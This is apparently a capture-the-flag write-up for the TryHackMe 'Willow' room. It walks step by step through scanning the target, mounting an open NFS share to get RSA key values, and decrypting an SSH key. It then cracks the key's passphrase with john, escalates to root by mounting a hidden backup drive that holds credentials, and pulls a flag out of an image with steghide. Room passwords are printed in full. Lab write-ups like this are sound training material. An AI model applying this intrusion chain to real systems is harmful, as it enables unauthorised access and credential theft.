 # [Willow](https://tryhackme.com/room/willow)

## What lies under the Willow Tree?

## Grab the flags from the Willow

### User Flag:

_https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/_

1. Scan the target system to identify available services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/dfbaf3fb-6d3b-4d9f-b644-569840707791)

2. Network File System (NFS) often contains sensitive information that can be accessed without authentication
   - Public Key Pair: (23, 37627)
   - Private Key Pair: (61527, 37627)

```bash
showmount -e IP
mkdir /nfs_mount
mount -t nfs IP:/var/failsafe /nfs_mount/
ls -la /nfs_mount/
cat /nfs_mount/rsa_keys
```

![SCREEN02](https://github.com/user-attachments/assets/2b2bee8d-6a0c-4722-9059-eabb1ad7ffde)

3. Navigate to the web server `http://IP:80` and analyze the content. The webpage contains a hex-encoded message. Use [CyberChef](https://gchq.github.io/CyberChef/) with the "From Hex" operation to decode it.

![SCREEN03](https://github.com/user-attachments/assets/61764cf0-7a6a-491d-b4eb-3f5ebc204892)

4. Using the RSA private key parameters found in the NFS share, decrypt the encoded message

```python
encrypted = "2367 2367 2367 2367 2367 ... 2367 2367 2367 2367 2367"

n = 37627
d = 61527

rsakey = ""

for s in encrypted.split(" "):
	decrypt = (int(s)**d) % n
	rsakey += chr(decrypt)

print(rsakey)
```

![SCREEN04](https://github.com/user-attachments/assets/f468cc7a-7d56-4b42-8e69-57b0fa3d1d28)

5. The decrypted RSA key is password-protected and needs to be cracked
   - The password is **wildflower**

```bash
chmod 600 willow_key
/opt/john/ssh2john.py willow_key > willow_key.hash
john willow_key.hash --wordlist=/root/Tools/wordlists/rockyou.txt
ssh -i willow_key willow@IP
```

![SCREEN05](https://github.com/user-attachments/assets/cac61bfc-92c3-46ec-9ecf-0bc5b3b6c7c9)

6. User flag is on the `user.jpg` image

```bash
scp -i willow_key willow@IP:/home/willow/user.jpg /root/user.jpg
```

![SCREEN06](https://github.com/user-attachments/assets/f914d7e8-0ff6-4107-ba92-e8e2eb3449cd)

---

### Root Flag:

_Where, on a Linux system, would you first look for unmounted partitions?_

1. Check for privilege escalation opportunities

```bash
sudo -l
ls -la /dev/
```

![SCREEN07](https://github.com/user-attachments/assets/9d1d7f4f-5139-48b7-a43f-30892e91dda2)

![SCREEN08](https://github.com/user-attachments/assets/6a1255df-7684-4247-99b3-19d15eafc439)

2. Mount the discovered hidden backup device

```bash
mkdir /tmp/backup
sudo /bin/mount /dev/hidden_backup /tmp/backup
ls -la /tmp/backup
cat /tmp/backup/creds.txt
```

![SCREEN09](https://github.com/user-attachments/assets/f4810c4a-3899-446e-8467-fafe99491bdd)

3. Log in as root, and check the `root.txt` file

```bash
su root
# Password: 7QvbvBTvwPspUK
cat /root/root.txt
```

![SCREEN10](https://github.com/user-attachments/assets/a0cdeff3-f139-48cd-b1ea-a8ccc784984f)

4. Return to the `user.jpg` file and extract the hidden root flag

```bash
steghide extract -sf user.jpg
# Password: 7QvbvBTvwPspUK
cat root.txt
```

![SCREEN11](https://github.com/user-attachments/assets/6444eef6-1fa6-4b29-96f8-5845058663f0)
